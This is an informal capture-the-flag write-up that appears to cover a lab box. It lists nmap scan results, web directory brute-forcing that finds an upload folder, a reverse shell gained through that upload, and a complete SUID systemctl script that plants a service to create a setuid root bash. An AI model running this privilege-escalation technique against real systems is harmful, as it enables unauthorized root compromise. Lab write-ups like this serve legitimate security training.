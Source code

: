 This was a fairly simple one
I lost rev shell and had to do it again huhu

nmapped

```
# Nmap 7.80 scan initiated Tue Aug 19 20:06:54 2025 as: nmap -A -Pn -oN nmap 10.201.67.124
Nmap scan report for 10.201.67.124
Host is up (0.27s latency).
Not shown: 992 closed ports
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          vsftpd 3.0.5
22/tcp   open     ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
139/tcp  open     netbios-ssn  Samba smbd 4.6.2
445/tcp  open     netbios-ssn  Samba smbd 4.6.2
1163/tcp filtered sddp
1259/tcp filtered opennl-voice
3128/tcp open     http-proxy   Squid http proxy 4.10
|_http-server-header: squid/4.10
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open     http         Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Vuln University
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-19T14:22:48
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 19 20:08:01 2025 -- 1 IP address (1 host up) scanned in 67.09 seconds
```

and ffuf'd then found a folder /internal
and recursively did that and found `http://vul.thm:3333/internal/index.php`
also found `http://vul.thm:3333/internal/uploads`

tried a simple revshell script from pentest monke and it works~
got in as www-data
and found some suid files on enumeration and used the systemctl one as it said so

using this:
```
cd /tmp

# write malicious service
cat > rootshell.service <<EOF
[Unit]
Description=rootshell

[Service]
Type=simple
ExecStart=/bin/sh -c 'cp /bin/bash /tmp/bashroot; chmod +s /tmp/bashroot'

[Install]
WantedBy=multi-user.target
EOF

# tell systemctl (running as root because of SUID) to start it
/bin/systemctl enable /tmp/rootshell.service
/bin/systemctl start rootshell.service

# root shell
/tmp/bashroot -p

```

got root lol ez

